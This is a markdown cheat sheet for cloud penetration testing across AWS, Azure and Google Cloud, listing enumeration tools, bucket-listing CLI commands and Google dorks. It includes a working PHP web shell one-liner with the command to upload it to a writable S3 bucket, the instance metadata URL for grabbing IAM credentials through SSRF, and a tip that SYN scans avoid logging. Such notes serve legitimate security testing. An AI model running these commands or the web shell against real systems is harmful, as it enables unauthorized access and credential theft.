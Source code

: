 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      
[bucketfinder](https://github.com/FishermansEnemy/bucket_finder/tree/master): look for interesting files on Amazon S3 buckets.       
Access     
     
     CLI: using AWS access key and AWS secret key. Set as enviromental variables.     
     Web: management web portal access.      
Pen Testing on a web server:     

     check for web requests to s3 buckets at https://s3.amazonaws.com/{bucketname} or https://s3-{region}.amazonaws.com/{Org}         
     Config issues:   

Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls s3://bucket.site.com    #list contents of a bucket    
    aws sl ls s3://bucket --region      
    aws --endpoint=http://site.com s3 ls s3://site.com   #list objects and common prefixes    
    aws s3api get-bucket-acl --bucket bucket       
    aws s3 cp file.txt s3://bucket --profile user_profile    
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Search for files with keywords in buckets using [bucket_finder](https://github.com/FishermansEnemy/bucket_finder):     

    bucket_finder.rb search_term --download         
Instance Metadata     

    "Metadata" endpoint: 169.254.169.254, should only be accessible from localhost. SSRF or other vulns might allow remote attacks to access it.         
    http://169.254.169.254/latest/meta-data/iam/security-credentials/     #IAM creds     
AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
Denonia cryptominer malware targeted Lambda.     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     
